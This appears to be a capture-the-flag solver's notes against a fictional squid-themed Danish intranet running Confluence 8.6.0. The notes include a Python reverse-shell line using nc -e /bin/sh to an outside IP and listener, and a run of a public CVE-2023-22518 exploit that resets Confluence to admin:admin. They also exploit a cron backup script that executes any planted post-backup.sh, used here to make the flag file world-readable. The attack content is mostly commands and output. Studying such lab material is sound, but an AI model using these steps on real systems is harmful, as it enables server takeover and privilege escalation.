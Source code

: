 456:password

Hacker Cat
hackercat@blaekspruttespillet.dk 

Grumpy Cat
grumpycat@blaekspruttespillet.dk 

Nyan Cat
nyancat@blaekspruttespillet.dk 

001
frontman@squid.dk 

Nyan Dog
nyandog@altmuligt.dk 

001@squid.dk (Administrator)
002@squid.dk (Tentacle Technician)
003@squid.dk (Ink Control)
004@squid.dk (Camouflage Coordinator)
005@squid.dk (Communication Octopus)
admin@squid.dk

crontab:
*/1 * * * * /usr/local/bin/squidbackup.sh

chmod +x /usr/local/bin/squidbackup.sh
chmod +x /usr/local/bin/squidrestore.sh

http://intranetmadness.hkn:8090/display/DOCS/calendar/63ef5f16-6616-49f6-b61f-92972c287e3f?calendarName=Vulns%20we%20should%20fix
05/04/2025
 Patch confluence!
Ny vuln har ramt! Folk får resat deres confluence. få nu patchet! noget med at man kan resette til admin admin og fjerne alt på hele serveren i ovenkøbet

Confluence 8.6.0
https://github.com/r00t7oo2jm/-CVE-2024-21683-RCE-in-Confluence-Data-Center-and-Server

CVE-2024-21683

import os
os.system("nc -e /bin/sh 10.0.240.244 4444")
nc -lvnp 4444

https://vulmon.com/searchpage?q=Atlassian+Confluence+Data+Center+8.6.0&sortby=bydate&scoretype=vmscore

CVE-2023-22518 

git clone https://github.com/ForceFledgling/CVE-2023-22518.git
Cloning into 'CVE-2023-22518'...
remote: Enumerating objects: 85, done.
remote: Counting objects: 100% (85/85), done.
remote: Compressing objects: 100% (85/85), done.
remote: Total 85 (delta 48), reused 1 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (85/85), 875.59 KiB | 9.73 MiB/s, done.
Resolving deltas: 100% (48/48), done.
cd%
❯ cd CVE-2023-22518
❯ ls
atlplug.jar  DETAIL.md  exploit.py  LICENSE  README.md  xmlexport-20231109-060519-1.zip
❯ python3 exploit.py
Enter the URL: http://intranetmadness.hkn:8090/json/setup-restore.action?synchronous=true
Enter the path to the .zip file: xmlexport-20231109-060519-1.zip
Exploit Success! Login Using 'admin :: admin'



shell>cat /usr/local/bin/squidbackup.sh
#!/bin/bash

# Directory to back up
SOURCE_DIR="/var/atlassian/application-data/confluence"

# Backup destination (user-specified)
BACKUP_DIR="$1"

# Check if backup directory is provided
if [ -z "$BACKUP_DIR" ]; then
echo "Usage: $0 <backup_directory>"
exit 1
fi

echo "[*] Starting backup from '$SOURCE_DIR' to '$BACKUP_DIR'..."

# Perform the backup
cp -r "$SOURCE_DIR"/* "$BACKUP_DIR"

if [ -f "$BACKUP_DIR/post-backup.sh" ]; then
echo "[!] post-backup.sh found. Executing..."
chmod +x "$BACKUP_DIR/post-backup.sh"
"$BACKUP_DIR/post-backup.sh"
fi

echo "[*] Backup completed." 

echo "#!/bin/bash\nchmod 777 /flag.txt" > /var/atlassian/application-data/confluence/post-backup.sh

shell>cat /flag.txt
DDC{D0N7H4CK7H35QU1DSM4N} 